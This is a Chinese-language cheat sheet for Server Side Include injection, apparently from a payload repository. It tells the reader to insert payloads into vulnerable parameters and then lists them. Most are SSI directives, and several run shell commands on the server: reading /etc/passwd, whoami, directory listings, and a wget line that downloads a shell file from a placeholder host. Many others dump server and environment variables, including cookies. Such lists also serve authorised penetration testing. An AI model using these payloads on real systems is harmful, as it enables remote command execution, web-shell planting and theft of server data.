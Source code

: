### 服务器端包含注入

把它放在一个易受攻击的参数中：  如果有效，您应该在响应中看到当前日期和时间输出。

`<!--#printenv -->`：输出环境变量。

`<!--#exec cmd="cat /etc/passwd"-->`

more:

```text
<pre><!--#exec cmd="ls" --></pre>
<pre><!--#echo var="DATE_LOCAL" --> </pre>
<pre><!--#exec cmd="whoami"--></pre>
<pre><!--#exec cmd="dir" --></pre>
<!--#exec cmd="ls" -->
<!--#exec cmd="wget http://website.com/dir/shell.txt" -->
<!--#exec cmd="/bin/ls /" -->
<!--#exec cmd="dir" -->
<!--#exec cmd="cd C:\WINDOWS\System32">
<!--#config errmsg="File not found, informs users and password"-->
<!--#echo var="DOCUMENT_NAME" -->
<!--#echo var="DOCUMENT_URI" -->
<!--#config timefmt="A %B %d %Y %r"-->
<!--#fsize file="ssi.shtml" -->
<!--#include file=?UUUUUUUU...UU?-->
<!--#echo var="DATE_LOCAL" --> 
<!--#exec cmd="whoami"--> 
<!--#printenv -->
<!--#flastmod virtual="echo.html" -->
<!--#echo var="auth_type" -->
<!--#echo var="http_referer" -->
<!--#echo var="content_length" -->
<!--#echo var="content_type" -->
<!--#echo var="http_accept_encoding" -->
<!--#echo var="forwarded" -->
<!--#echo var="document_uri" -->
<!--#echo var="date_gmt" -->
<!--#echo var="date_local" -->
<!--#echo var="document_name" -->
<!--#echo var="document_root" -->
<!--#echo var="from" -->
<!--#echo var="gateway_interface" -->
<!--#echo var="http_accept" -->
<!--#echo var="http_accept_charset" -->
<!--#echo var="http_accept_language" -->
<!--#echo var="http_connection" -->
<!--#echo var="http_cookie" -->
<!--#echo var="http_form" -->
<!--#echo var="http_host" -->
<!--#echo var="user_name" -->
<!--#echo var="unique_id" -->
<!--#echo var="tz" -->
<!--#echo var="total_hits" -->
<!--#echo var="server_software" -->
<!--#echo var="server_protocol" -->
<!--#echo var="server_port" -->
<!--#echo var="server_name -->
<!--#echo var="server_addr" -->
<!--#echo var="server_admin" -->
<!--#echo var="script_url" -->
<!--#echo var="script_uri" -->
<!--#echo var="script_name" -->
<!--#echo var="script_filename" -->
<!--#echo var="netsite_root" -->
```